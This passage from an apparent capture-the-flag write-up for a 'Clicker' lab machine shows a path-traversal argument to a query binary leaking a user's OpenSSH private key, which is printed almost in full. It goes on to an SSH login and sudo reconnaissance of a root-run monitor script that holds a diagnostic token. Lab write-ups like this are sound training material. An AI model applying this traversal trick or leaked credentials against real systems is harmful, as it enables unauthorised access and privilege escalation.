 It attempts to change the User ID, but `strace` can't capture it. Additionally, the binary tries to execute the file `/home/jack/queries/clean.sql`, but it lacks permissions. Now, let's perform a path traversal attack using a non-existent option as the first argument and the relative path `../.ssh/id_rsa` as the second parameter.

```txt
www-data@clicker:/var/www/clicker.htb/exports$ /opt/manage/execute_query 5 ../.ssh/id_rsa
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs4eQaWHe45iGSieDHbraAYgQdMwlMGPt50KmMUAvWgAV2zlP8/1Y
J/tSzgoR9Fko8I1UpLnHCLz2Ezsb/MrLCe8nG5TlbJrrQ4HcqnS4TKN7DZ7XW0bup3ayy1
kAAZ9Uot6ep/ekM8E+7/39VZ5fe1FwZj4iRKI+g/BVQFclsgK02B594GkOz33P/Zzte2jV
Tgmy3+htPE5My31i2lXh6XWfepiBOjG+mQDg2OySAphbO1SbMisowP1aSexKMh7Ir6IlPu
nuw3l/luyvRGDN8fyumTeIXVAdPfOqMqTOVECo7hAoY+uYWKfiHxOX4fo+/fNwdcfctBUm
pr5Nxx0GCH1wLnHsbx+/oBkPzxuzd+BcGNZp7FP8cn+dEFz2ty8Ls0Mr+XW5ofivEwr3+e
...
F0YCoftLetCA/kiVtqlT0trgO8Yh+78QAAAMEAwYV0GjQs3AYNLMGccWlVFoLLPKGItynr
Xxa/j3qOBZ+HiMsXtZdpdrV26N43CmiHRue4SWG1m/Vh3zezxNymsQrp6sv96vsFjM7gAI
JJK+Ds3zu2NNNmQ82gPwc/wNM3TatS/Oe4loqHg3nDn5CEbPtgc8wkxheKARAz0SbztcJC
LsOxRu230Ti7tRBOtV153KHlE4Bu7G/d028dbQhtfMXJLu96W1l3Fr98pDxDSFnig2HMIi
lL4gSjpD/FjWk9AAAADGphY2tAY2xpY2tlcgECAwQFBg==
-----END OPENSSH PRIVATE KEY---
--------------
``````

We use the private key to log in via SSH as jack.

```bash
ssh -i id_rsa jack@clicker.htb 
```

### Privilege Escalation

Now, let's check if we have certain privileges in sudoers.


```txt
jack@clicker:~$ sudo -l
Matching Defaults entries for jack on clicker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jack may run the following commands on clicker:
    (ALL : ALL) ALL
    (root) SETENV: NOPASSWD: /opt/monitor.sh
```

Indeed, we can execute `/opt/monitor.sh` as root, and we also have permission to modify environment variable values when running the script. Let's analyze the script.

```bash
jack@clicker:~$ cat /opt/monitor.sh
#!/bin/bash
if [ "$EUID" -ne 0 ]
  then echo "Error, please run as root"
  exit
fi

set PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
unset PERL5LIB;
unset PERLLIB;

data=$(/usr/bin/curl -s http://clicker.htb/diagnostic.php?token=secret_diagnostic_token);
/usr/bin/xml_pp <<< $data;
```